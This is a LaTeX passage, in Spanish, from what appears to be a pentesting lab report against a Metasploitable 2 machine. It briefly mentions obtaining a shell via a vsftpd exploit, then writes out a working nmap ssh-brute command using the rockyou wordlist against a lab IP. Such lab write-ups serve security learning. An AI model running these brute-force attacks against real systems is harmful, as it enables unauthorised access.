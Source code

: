 \documentclass[11pt]{report}
\begin{document}
Una vez configurado el exploit, vamos a ejecutarlo con el comando \emph{run} y vamos a obtener una shell de la máquina de Metasploitable 2.
\begin{figure}[H]
  \centering
  \includegraphics[scale=0.6]{img/run_vsftpd.png}
  \caption{Resultado del comando run}
\end{figure}

\newpage

\section{Exploit puerto 22 – SSH}
Para realizar un ataque de fuerza bruta con SSH vamos a obtener con el comando \emph{nmap}, ejecutamos el siguiente comando:
\begin{verbatim}
kali@kali$ nmap -p 22 --script ssh-brute --script-args 
           userdb=/usr/share/wordlists/metasploit/unix_users.txt,
           passdb=/usr/share/wordlists/rockyou.txt 192.168.200.4
\end{verbatim}


\begin{figure}[H]
  \centering
  \includegraphics[scale=0.6]{img/nmap_ssh.png}
  \caption{Ejecución del comando nmap para el puerto 22}
\end{figure}

\begin{figure}[H]
  \centering
  \includegraphics[scale=0.7]{img/nmap_ssh_result.png}
  \caption{Resultado del comando nmap}
\end{figure}
\end{document}
